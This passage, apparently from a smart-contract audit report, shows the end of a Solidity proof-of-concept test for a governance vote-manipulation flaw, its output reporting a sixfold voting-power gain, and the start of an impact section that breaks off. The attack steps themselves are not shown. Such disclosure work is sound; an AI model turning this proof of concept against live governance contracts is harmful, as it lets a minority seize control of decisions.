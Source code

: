```solidity 
        uint256 initialQuorum = governance.quorum();
        vm.warp(block.timestamp + 30 days);
        uint256 finalQuorum = governance.quorum();
        
        emit log_named_uint("Initial quorum", initialQuorum);
        emit log_named_uint("Final quorum", finalQuorum);
​
        // Verify attack success
        assertTrue(
            finalVotes > initialVotes * 2,
            "Attack should at least double effective voting power"
        );
​
        // Check proposal state
        vm.warp(block.timestamp + governance.votingPeriod());
        IGovernance.ProposalState state = governance.state(proposalId);
        
        assertTrue(
            state == IGovernance.ProposalState.Succeeded,
            "Proposal should succeed with manipulated votes"
        );
    }
}
``` 
​
Proof of Concept Results:

```solidity
Initial Setup:
Attacker0 initial voting power: 500000000000000000000000
Account 1 initial voting power: 100000000000000000000000
Account 2 initial voting power: 150000000000000000000000
Account 3 initial voting power: 200000000000000000000000
Account 4 initial voting power: 250000000000000000000000
​
Attack Results:
Initial votes: 499657530282851344522227
Final votes: 3297739699866818873695235
Vote multiplier achieved: 6
```

### Impact
The vulnerability has severe implications for the governance system:

Vote Manipulation

Attackers can amplify voting power by up to 6x during voting

Minority token holders can potentially control governance decisions

Democratic nature of governance is undermined

Strategic Exploitation
